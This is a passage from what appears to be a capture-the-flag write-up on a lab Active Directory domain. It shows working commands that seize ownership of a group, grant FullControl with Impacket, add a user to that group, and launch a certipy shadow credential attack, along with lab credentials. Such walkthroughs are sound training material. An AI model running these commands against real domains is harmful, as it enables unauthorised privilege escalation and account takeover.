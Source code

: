 ```bash
owneredit.py -action write -new-owner judith.mader -target Management certified.htb/judith.mader:judith09
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

Now we grant ourselves `FullControl` using `dacledit.py`.

```bash
dacledit.py -action write -principal 'judith.mader' -target management -rights FullControl 'certified.htb/judith.mader:judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250101-084216.bak
[*] DACL modified successfully!
```

And now we add the user to the group using `net`.

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"
```

We can check if we've been added to the `management` group by listing the users on that group using the following command.

```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

We see that `judith.mader` is part of the `management` group.

Now that we are part of the `Management` group, let's move to the next part.

### GenericWrite

The members of the group `MANAGEMENT` have generic write access to the user `MANAGEMENT_SVC`.

>Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user
{: .prompt-info }

To exploit this, we can use `certipy` to perform a shadow credential attack.

```bash
certipy shadow auto -account management_svc -u 'judith.mader@certified.htb' -p 'judith09' -dc-ip 10.10.11.41
```

Running the command gives us the `Clock skew too great`, we fix that with `sudo rdate -n certified.htb`.
